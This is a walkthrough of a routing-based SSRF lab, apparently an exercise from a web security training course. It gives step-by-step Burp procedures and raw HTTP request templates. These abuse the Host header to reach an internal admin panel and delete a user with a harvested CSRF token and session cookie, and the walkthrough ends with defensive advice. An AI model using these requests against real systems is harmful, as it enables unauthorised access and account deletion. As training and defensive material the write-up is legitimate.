 High-level attack chain
1) Confirm SSRF primitive via `Host` by pointing it to Burp Collaborator domain and observing an interaction.
2) Bruteforce `192.168.0.0/24` in the `Host` header to discover which IP returns `302 /admin`.
3) Route requests to that internal IP to access `/admin` and extract CSRF/session.
4) Craft a POST to `/admin/delete` with the extracted CSRF and cookie to delete `carlos`.

Hunting methodology (repeatable)
1) Validate routing SSRF primitive
   - Send `GET /` that yields 200 to Repeater. Replace `Host: {VICTIMSITE}` with a Burp Collaborator domain. If interactions appear in Collaborator, the middleware is issuing outbound requests based on `Host`.

2) Bruteforce internal range via `Host`
   - In Intruder, turn off “Update Host header to match target”. Use positions: `Host: 192.168.0.§0§` with numeric payloads 0–255. Sort by status; identify the IP that yields a `302` to `/admin`.

3) Access the admin panel
   - In Repeater, set `Host: 192.168.0.{HIT}` and request `GET /admin`. Confirm access and locate CSRF token and session cookie in the response.

4) Delete the target user
   - Change request to `GET /admin/delete?csrf={TOKEN}&username=carlos` and include the session cookie from the prior response. Convert to POST (Burp: Change request method) and resend.

Key request templates
```
# Discovery (Repeater)
GET / HTTP/1.1
Host: {COLLAB_DOMAIN}

# Bruteforce (Intruder)
GET / HTTP/1.1
Host: 192.168.0.§0§

# Admin access
GET /admin HTTP/1.1
Host: 192.168.0.{HIT}

# Delete user
POST /admin/delete?csrf={TOKEN}&username=carlos HTTP/1.1
Host: 192.168.0.{HIT}
Cookie: session={SESSION}
Content-Length: 0
```

Notes and pitfalls
- Some stacks require absolute-URI forms in the request line or authority headers; if no interaction, try `GET http://192.168.0.1/ HTTP/1.1` with `Host` left as the internal IP.
- Proxies may enforce SNI/HTTPS differences; if TLS is in play, this technique typically targets HTTP upstreams. If HTTPS is required, look for `X-Forwarded-Host`/`Forwarded` influence instead.
- Ensure Burp does not auto-rewrite the `Host` header; disable “Update Host header to match target”.

Defensive guidance
- Do not route based on untrusted `Host`. Enforce a strict, canonical `Host` allowlist at the edge and terminate routing on configuration, not headers.
- Drop requests with multiple or malformed `Host` headers. Normalize and validate before any routing logic.
- Segment internal services; require auth on admin panels even from internal networks.
- Use allowlisted upstreams and service discovery instead of header-derived destinations.
